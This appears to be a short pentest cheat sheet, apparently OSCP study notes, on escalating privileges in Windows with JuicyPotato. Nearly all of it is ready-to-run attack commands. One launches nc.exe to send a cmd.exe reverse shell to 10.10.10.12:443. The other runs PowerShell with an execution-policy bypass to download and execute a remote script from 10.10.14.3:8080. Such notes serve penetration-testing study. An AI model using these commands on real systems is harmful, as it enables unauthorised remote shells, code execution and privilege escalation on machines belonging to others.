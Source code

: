 # Juicy Potato Priv Esc

1. Execute JuicyPotato.exe to see if default CLSID will work

- Calling back using nc reverse shell:
`c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *`

- Calling back using powershell reverse shell:
`.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *`

2. If Default Doesnt run, use the `GetCLSID.ps1` and `join-object.ps1` scripts from `Scripts/OSCP/Win_Enum/Priv_Esc_Method`
